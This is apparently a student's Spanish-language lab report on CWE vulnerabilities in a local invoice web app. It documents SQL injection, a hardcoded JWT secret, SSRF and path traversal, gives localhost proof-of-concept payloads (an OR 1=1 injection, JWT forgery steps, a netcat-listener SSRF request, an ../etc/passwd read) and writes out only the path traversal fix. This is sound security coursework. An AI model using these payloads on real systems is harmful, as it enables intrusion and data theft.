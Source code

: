 # Consigna Práctica 2 - Mitigación de Vulnerabilidades de CWE

**Aclaración**

Varias de estas vulnerabilidades se explotaron utilizando el user Test, que tiene el userId: 1

## 1 - Inyección SQL 

**Justificación**

En la función getReceipt que se encuentra en invoiceService, los parámetros status y operator se concatenan directamente en la consulta de SQL. Esto es una vulnerabilidad ya que un atacante puede inyectar código de SQL malicioso.

**Componente afectado:** `services/backend/src/services/invoiceService.ts`

**Parametro afectado:** let q

```typescript
class InvoiceService {
  static async list( userId: number, status?: string, operator?: string): Promise<Invoice[]> {
    let q = db<InvoiceRow>('invoices').where({ userId: userId });
    if (status) q = q.andWhereRaw(" status "+ operator + " '"+ status +"'");                    
    const rows = await q.select();
    const invoices = rows.map(row => ({
      id: row.id,
      userId: row.userId,
      amount: row.amount,
      dueDate: row.dueDate,
      status: row.status} as Invoice
    ));
    return invoices;
  }
  ```

Esto es vulnerable ya que se utiliza directamente la concatenación de strings.

**PoC**

Siguiendo los siguientes pasos se puede reproducir la vulnerabilidad:

1- Entrar en la terminal de la computadora al servicio de backend
2- Ejecutar el siguiente comando: 
`curl -X GET 'http://localhost:5000/invoices?operator==&status=%27%20OR%201=1%20--' -H 'Authorization: Bearer <token generado anteriormente>'
`
- 3- Respuesta con JSON con datos de las facturas:
![sqlinjection](image.png)

**Fix**

## 2 - Hard Coded Credentials

**Justificación**

Se encuentra hardcodeado en el código el secreto que se utiliza para firmar los JWT. 
Esto es una vulnerabilidad ya que cualquiera que tenga acceso al código, sea externo o interno a la empresa, puede obtener ese secreto y generar tokens de acceso válidos para cualquier usuario y tomar el control de las cuentas

**PoC**

Siguiendo los siguientes pasos se puede reproducir la vulnerabilidad:

1. Entrar a la pagina http://jwtbuilder.jamiekurtz.com/ 

2. Ir a la parte de “Additional Claims” y borrar todo.
3. Agregar lo siguiente:
    Claim Type : id 
    Value: 1
4. Ir a la sección “Signed JSON Web Token” y en la parte de key poner el siguiente valor “secreto_super_seguro”
5. Darle al boton “Created Signed JWT” y copiar el token.
6. Ir al navegador 
7. Entrar a la url http://localhost:3000/login 
8. Entrar a las herramientas de desarrollo (F12)
9. Ir a la sección de storage
10. Seleccionar LocalStorage e ingresar al la url del localhost
11. Ver si existe algún valor, si existe modificar el token que se encuentra ahi por el token creado. De no existir, darle al más y agregar en Key el valor “token” y en Value poner el token.
12. Hacer refresh a la url y intentar entrar a http://localhost:3000/home 

**Fix**

## 3 - Server Side Request Fogery - SSRF

**Justificación**
En el invoiceService, la función setPaymentCard construye una URL usando el parámetro paymentBrand que le envía el usuario. Esto es una vulnerabilidad ya que un atacante puede usar esto para hacer que el servidor realice peticiones a otros servicios dentro de la red interna

**Componente Afectado:** `services/backend/src/services/invoiceService.ts`

**Parametro Afectado:** `const paymentResponse` 

```typescript
 const paymentResponse = await axios.post(`http://${paymentBrand}/payments`, {
      ccNumber,
      ccv,
      expirationDate
    });
    if (paymentResponse.status !== 200) {
      throw new Error('Payment failed');
    }
```

**PoC**
Siguiendo los siguientes pasos se puede reproducir la vulnerabilidad:

1. Abrir una terminal y ejecutar el siguiente comando. Esté comando lo que hace es poner a escuchar a nuestro servidor malicioso :`nc -lvp 9090`

2. Ir a la terminal donde tenemos abierto el proyecto de backend y ejecutar:
`curl -X POST http://localhost:5000/invoices/1/pay
 -H "Authorization: Bearer <token generado anteriormente>"
-H "Content-Type: application/json" 
-d '{
  "paymentBrand": "127.0.0.1:9090",
  "ccNumber": "4111222233334444",
  "ccv": "123",
  "expirationDate": "12/29"
}'`
3. Volver a la terminal que estaba escuchando y se puede observar que escucho el post que realizamos

![SSRF](image-1.png)

**Fix**

## 4 - Path Traversal

**Justificación**
La funcionalidad para descargar archivos no valida correctamente la ruta del archivo, lo que hace que esté permitido el uso de caracteres como ../. Esto es una vulnerabilidad ya que el atacante puede navegar por distintas partes del directorio y puede llegar a leer archivos de configuración sensibles o archivos del sistema operativo.

**Componentes afectados:** 
`src/controllers/invoiceController.ts → getInvoicePDF`

`src/services/invoiceService.ts → InvoiceService.getReceipt`

**Endpoint vulnerable:**
`GET /invoices/:id/invoice`

**Parametro vulnerable:** `pdfName`

```typescript
static async getReceipt(
    invoiceId: string,
    pdfName: string
  ) {
    // check if the invoice exists
    const invoice = await db<InvoiceRow>('invoices').where({ id: invoiceId }).first();
    if (!invoice) {
      throw new Error('Invoice not found');
    }
    try {
      const filePath = `/invoices/${pdfName}`;
      const content = await fs.readFile(filePath, 'utf-8');
      return content;
    } catch (error) {
      // send the error to the standard output
      console.error('Error reading receipt file:', error);
      throw new Error('Receipt not found');

    } 
```

**PoC**
Siguiendo los siguientes pasos se puede reproducir la vulnerabilidad:

1. En Postman hacer el siguiente request:
`GET 'http://localhost:5000/invoices/1/invoice?pdfName=../../../../../../../../../../etc/passwd`
2. Muestra nombres de usuarios e IDs válidos además de estructura del sistema con los directrorios home y shells de acceso /bin/bash


**Fix**
Para arrelgar la vulnerabilidad, utilizamos la estrategía es la de validación de ruta canónica.

Pusimos una variable llamada `INVOICE_DIRECTORY` para asegurarnos de que la ruta solicitada nunca salga del directorio base usando path.resolve(). 

```typescript
const INVOICES_DIRECTORY = path.resolve(__dirname, '..', '..', 'invoices_data');
```
En la función `getReceipt` se usa path.join para construir la ruta de fomra segura como lo dimos en clase, normalizando automaticamente la ruta y eliminando secuencias ../ que intenten escapar del directorio actual. 

En la variable 
```typescript
const requestFilePath = path.join(INVOICES_DIRECTORY, pdfName);
```
 Se verifica usando startsWith() que la ruta de requestFilePath, siempre coincida con el directorio actual, de los contrario se rechaza la solicitud. 


```typescript
static async getReceipt(
    invoiceId: number,   // cambio a number
    pdfName: string,
    userId: number
  ) {
    // check if the invoice exists
    const invoice = await db<InvoiceRow>('invoices').where({id: invoiceId, userId: userId}).first();
    if (!invoice) {
      throw new Error('Factura no encontrada o usuario  no autorizado'); //Aviso de error
    }

    const requestFilePath = path.join(INVOICES_DIRECTORY, pdfName)

    if (!requestFilePath.startsWith(INVOICES_DIRECTORY)) { //fix
      throw new Error('Error, no puede acceder fuera del directorio predeterminado'); // Aviso de error
    }

    try {
      const content = await fs.readFile(requestFilePath, 'utf-8');  //fix para la vulnerabilidad
      return content;
    } catch (error) {
      // send the error to the standard output
      console.error('Error reading receipt file:', error);
      throw new Error('Receipt not found');
    } 
```
